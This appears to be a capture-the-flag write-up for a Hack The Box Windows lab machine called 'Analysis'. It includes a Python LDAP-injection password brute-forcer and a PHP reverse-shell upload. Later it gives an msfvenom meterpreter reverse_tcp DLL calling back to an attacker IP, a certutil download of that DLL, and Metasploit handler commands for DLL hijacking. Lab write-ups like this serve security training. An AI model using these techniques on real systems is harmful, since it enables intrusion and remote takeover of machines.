 # Analysis Writeup
<figure><img src="../src/Analysis/card.png"></figure>

Nmap Scan: 
```
┌──(kali㉿kali)-[~/Desktop/htb/analysis]
└─$ nmap -sC -sV -vv 10.10.11.250  
PORT     STATE SERVICE       REASON  VERSION
53/tcp   open  domain        syn-ack Simple DNS Plus
80/tcp   open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-01-25 03:30:21Z)
135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack
464/tcp  open  kpasswd5?     syn-ack
593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack
3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack
3306/tcp open  mysql         syn-ack MySQL (unauthorized)
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7365/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 44263/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 9653/udp): CLEAN (Timeout)
|   Check 4 (port 58425/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2024-01-25T03:30:34
|_  start_date: N/A
```

Trying to Find some subdomains of `analysis.htb`.

```
┌──(kali㉿kali)-[~/Desktop/htb/analysis]
└─$ gobuster dns -d analysis.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r 10.10.11.250:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   10.10.11.250:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb

Found: internal.analysis.htb

Found: gc._msdcs.analysis.htb

Found: domaindnszones.analysis.htb

Found: forestdnszones.analysis.htb

Progress: 5071 / 19967 (25.40%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 5084 / 19967 (25.46%)
===============================================================
Finished
===============================================================
```

There wa snothing in the current directory. So, let's try to find some other directories.
<figure><img src="../src/Analysis/defaultdir.png"></figure>

After bruteforcing, Found these endpoints.
<figure><img src="../src/Analysis/dirsearch.png"></figure>

Found a login page at `/employees/login.php`.
<figure><img src="../src/Analysis/emplogin.png"></figure>

And with /users, there is a list.php that show us a information table which based on user parameter.
<figure><img src="../src/Analysis/userlist.png"></figure>

Found out that LDAP Injection is possible in the name parameter. I wrote a python script to bruteforce the password.

```
import argparse
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)
if __name__ == "__main__":
    main()
```

<figure><img src="../src/Analysis/pass.png"></figure>

I was able to login to the dashboard using that credential as `technician`.

<figure><img src="../src/Analysis/dashboard.png"></figure>

## SVC_OWNER.

We can get the `svc_owner` by doing the following steps.

```
Dashboard -> SOC Report -> Upload PHP Reverse Shell
```

Once the shell is uploaded go to the URL.

```
http://internal.analysis.htb/dashboard/uploads/<filename>.php
```

<figure><img src="../src/Analysis/svc.png"></figure>

I also enumerated for the users.

<figure><img src="../src/Analysis/userlist.png"></figure>

After trying to enumerate the settings and default configurations. I found the default logon password.

<figure><img src="../src/Analysis/reg.png"></figure>

We are able to login to the user using `evil-winrm` to the jdoe user.

And we have found the User Flag.

<figure><img src="../src/Analysis/userflag.png"></figure>

## Root Flag

Upon exploring a little more, I found snort is in the machine. Thrugh snort I can perform dll hijacking.

So i mnake a payload with `msfvenom`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f dll LHOST=10.10.16.3 LPORT=4444 > sf_engine.dll
```

Then upload it to the machine using `certutil.exe`.

```
certutil.exe -urlcache -split -f http://10.10.16.3/sf_engine.dll sf_engine.dll
```

After waiting for a few minutes I get a reverse connection in my msfconsole shell.

```
$ msfconsole

$ use exploit/multi/handler 

$ set payload windows/x64/meterpreter/reverse_tcp

$ set lhost tun0

$ set lport 4444
```

And the machine is rooted.

Thank you !!! Happy Hacking :D